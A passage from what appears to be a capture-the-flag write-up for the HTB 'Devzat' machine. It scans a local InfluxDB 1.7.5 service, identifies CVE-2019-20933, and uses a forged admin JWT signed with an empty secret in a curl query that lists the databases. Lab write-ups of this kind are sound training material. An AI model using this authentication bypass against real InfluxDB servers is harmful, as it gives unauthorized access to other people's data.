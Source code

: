 ### Exploiting Influx-db (CVE-2019-20933)

Now, we will do a nmap scan on port 8086 on our localhost to identify service on the port.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo nmap -sC -sV -A -p8086 -T4 localhost -vv
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-29 00:31 EST
PORT     STATE SERVICE REASON         VERSION
8086/tcp open  http    syn-ack ttl 64 InfluxDB http admin 1.7.5
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
OS details: Linux 2.6.32
```

Looking up InfluxDB http admin 1.7.5, we can find out that InfluxDB 1.7.5 is vulnerable to CVE-2019-20933 which allows authentication by JWT token with an empty shared secret. For this machine, we will use the following token "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjc2MzQ2MjY3fQ.NPhb55F0tpsp5X5vcN_IkAAGDfNzV5BA6M4AThhxz6A", which uses HS256 as the algo and admin as the username 

![JWT Token](https://github.com/joelczk/writeups/blob/main/HTB/Images/Devzat/jwt_token.png)

Next, we will use this JWT token to exeute a query to find out the databases on this InfluxDB instance. From the output, we are able to know that there are 2 databases on this instance, namely devzat and __internal

```
┌──(kali㉿kali)-[~]
└─$ curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjc2MzQ2MjY3fQ.NPhb55F0tpsp5X5vcN_IkAAGDfNzV5BA6M4AThhxz6A" "http://localhost:8086/query?q=SHOW+DATABASES"
{"results":[{"statement_id":0,"series":[{"name":"databases","columns":["name"],"values":[["devzat"],["_internal"]]}]}]}
```
